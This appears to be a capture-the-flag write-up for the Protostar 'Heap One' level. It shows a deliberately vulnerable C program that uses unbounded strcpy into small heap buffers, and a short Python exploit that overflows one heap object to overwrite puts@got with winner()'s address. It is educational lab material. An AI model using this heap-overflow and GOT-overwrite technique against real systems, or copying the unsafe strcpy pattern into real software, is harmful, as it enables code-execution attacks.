

# Heap One

## Description

This level takes a look at code flow hijacking in data overwrite cases.

This level is at /opt/protostar/bin/heap1

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

## Exploit script

```python
from struct import pack
from os import system

arg1 = "A"*20 + pack("I", 0x08049774)   # puts@got
arg2 = pack("I", 0x08048494)            # overwirte puts@got -> winner

system('./heap1 ' + '\"' + arg1 + '\"' + ' ' + '\"' + arg2 + '\"') 
```

Level passed!

<p align="center">
    
</p>